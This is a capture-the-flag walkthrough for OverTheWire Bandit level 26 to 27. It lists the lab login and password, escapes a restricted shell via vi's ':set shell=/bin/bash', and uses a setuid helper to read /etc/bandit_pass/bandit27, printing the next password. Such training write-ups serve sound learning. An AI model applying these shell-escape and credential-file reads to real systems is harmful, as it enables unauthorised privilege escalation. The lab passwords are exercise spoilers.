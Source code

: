 # Level 26 -> 27 

## Objetivo

-   Logging in to bandit26 from bandit25 should be fairly easy The shell for user ban-  
    dit26 is not /bin/bash, but something else. Find out what it is, how it works and  
    how to break out of it.

## Datos de acceso

-   Host: bandit.labs.overthewire.org
-   Port: 2220
-   User: bandit26
-   Password: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

## Solución

-   When doing the same trick as in the last level, we find ourselves with permissions denied, so it has to be done in a different way. We need to acces to the shell of lvl 26, once, get the password.

```
:set shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
```

## Notas adicionales